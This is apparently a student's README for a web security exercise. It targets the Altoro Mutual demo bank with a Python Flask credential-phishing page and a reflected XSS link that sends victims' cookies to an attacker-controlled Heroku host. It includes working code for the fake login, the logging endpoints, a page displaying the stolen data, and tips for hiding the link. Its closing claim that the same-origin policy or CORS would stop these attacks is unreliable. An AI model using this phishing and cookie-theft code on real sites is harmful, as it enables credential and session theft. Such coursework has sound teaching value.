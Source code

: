 # Exercise 2 solution
This exercise is realised using Python+Flask and deployed in heroku.(The links are live.)
## Quick Links
---
## Exercise 1.

Step 1: [Login Page](https://mysterious-harbor-34550.herokuapp.com/login)for the login page\
Step 2: [Exposed Login Credentials](https://mysterious-harbor-34550.herokuapp.com/expose) to view the stored user credentials\

/login - displays a form where user has to input login details, once logged in the site automatically redirects to demo.testfire.net
>/login will call /handle_data to store the parameters in a file and then redirect to Altoro Mutual

/expose - used to view all the collected cookie/login data from cookiedata.txt

## Exercise 2
Step 1: [Loan is now approved!](https://mysterious-harbor-34550.herokuapp.com/loanapproval) for the login page\
Step 2: [Exposed Cookie](https://mysterious-harbor-34550.herokuapp.com/expose) to view the stored user credentials

/loanapproval- this is the link that will be shared with as a man in the middle attack, once he clicks here /ilikecookies is called to write cookie data of the user in cookiedata.txt.

/expose - used to view all the collected cookie/login data from cookiedata.txt

---
## Question 1 - Reflected XSS when an user is not logged in, stealing their login credentials.
1. Look for a place, where you can conduct a reflected XSS attack against a user who is currently not logged in.
- Design an attack which fakes the Login form to attack users that are currently not logged in. Send the login information to a server of your choice and login the user normally afterwards. (3P)
    1. The user is fed with the fake login page located at :[Login Page](https://mysterious-harbor-34550.herokuapp.com/login)
    The below code is implemented for the fake login and redirection.
    ```python
    @app.route('/login')
        def login():
            form_data='''<form id="foo" method="post" action="/handle_data">
            Username : <input type="text" name='uid' value="admin">
            Password : <input type="password" name='passw' value="">
            <input type="submit" name="submit" value="Submit">
            </form>
            '''
            return form_data
    ```
    2. Once the login data is filled and user clicks on submit, it writes the credentials on a notepad and then redirects the user to Altoro Mutual.
    The below code is implemented for writing the credentials and redirection.
    ```python
    @app.route('/handle_data', methods=['POST'])
        def handle_data():
            if request.method == 'POST':
                req = request.form
                uid = req.get('uid')
                passw = req.get('passw')
                data = 'uid: '+uid+' password: ' + ' ' + strftime("%Y-%m-%d %H:%M:%S", gmtime()) + '\n'
                file = open("/tmp/cookiedata.txt","a")
                file.write(data)
                file.close()
                data={"uid":uid,"passw":passw,"btnSubmit":"Login"}
                
                requests.post('http://demo.testfire.net/doLogin',data)
            
            return redirect('http://demo.testfire.net')
    ```
    3. Viewing the stored credentials is implemented using the below code.You can access the page here:[Exposed Cookie](https://mysterious-harbor-34550.herokuapp.com/expose)
    ```python
        @app.route('/expose')
            def expose():
                datafile = "/tmp/cookiedata.txt"
                if not os.path.isfile( datafile ):
                    return "server contains no data :-("
                with open(datafile) as f:
                    lines = f.readlines()
                data = '<html><BODY>'
                for line in lines:
                    data = data + line + '</br>'
                data = data + '</BODY></html>'
                return data
    ```
    
- How can you hide the attack code to the victim? Implement an exemplary concealment. (1P)\
    When passing the attack code to the victim, the link can be concealed using any URL shortener, further to prevent user to easily recognise the script tags passed within an URL, we can also use URL encoder to conceal most of the script code in the URL.



---
## Question 2 - Reflected XSS when a user is logged in to steal the cookie
2. Look for a place, where you can conduct a reflected XSS attack against a user who is currently logged in.
- Design an attack which reads information about the user and send the information to a server of your choice. (2P)
    1. When the user is already logged in, this link has to be shared with the user, tempting the user to click on the malicious link.
    ```python
        @app.route('/loanapproval')
            def loanapproval():
                crosssite='''<!DOCTYPE html>
                            <html> 
                                <head> 
                                    <style> body { background-color:whitesmoke; } </style> 
                                    <title>Altoro Mutual</title> 
                                </head> 
                                    <body> 
                                
                                    <center> 
                                        <img src="./images/logo.gif" width="283" height="80/">
                                        <h1>You are granted loan by Altoro mutual</h1> 
                                        <p> 
                                            Your account has been granted an pre approved loan.
                                            To continue further, please <a href="http://demo.testfire.net/search.jsp?query=%3Cscript%3Evar+xsession%3D%22''' + request.url_root + '''ilikecookies%3F%22.concat%28document.cookie%29%3B+var+xhttp+%3D+new+XMLHttpRequest%28%29%3B+xhttp.open%28%22GET%22%2C+xsession%2C+true%29%3B+xhttp.send%28%29%3C%2Fscript%3E">click here.</a>
                                        </p> 
                                    </center> 
                                </body> 
                            </html>
                            '''
                return crosssite
    ```
    2. Once the user clicks on the link, a redirection is triggered to Altoro Mutual and the cookie is copied and sent back to the our malicious website as a get request to store on a notepad file, using below code.
    ```python
        @app.route('/ilikecookies')
            def ilikecookies():
                data = request.query_string.decode('unicode-escape') + ' ' + strftime("%Y-%m-%d %H:%M:%S", gmtime()) + '\n'
                file = open("/tmp/cookiedata.txt","a")
                file.write(data)
                file.close()
                return data
    ```
    3. Viewing the stored cookie is implemented using the below code. You can access the page here:[Exposed Cookie](https://mysterious-harbor-34550.herokuapp.com/expose)
    ```python
        @app.route('/expose')
            def expose():
                datafile = "/tmp/cookiedata.txt"
                if not os.path.isfile( datafile ):
                    return "server contains no data :-("
                with open(datafile) as f:
                    lines = f.readlines()
                data = '<html><BODY>'
                for line in lines:
                    data = data + line + '</br>'
                data = data + '</BODY></html>'
                return data
    ```

---
## Question 3 - 
 3. What would be your advices for the Altoro Mutual bank in order to close the vulnerabilities or to make exploiting them impossible? (2P) 
    - The Altoro Mutual bank site is vulnerable to cross site scripting, if Same Origin Policy is implemented, then the exploits could be avoided.
    ![Same Origin Policy](./images/SOP.jpg)
    - Even if CORS is implemented, the sensitive data will not be vulnerable.
    ![CORS](./images/CORS.jpg)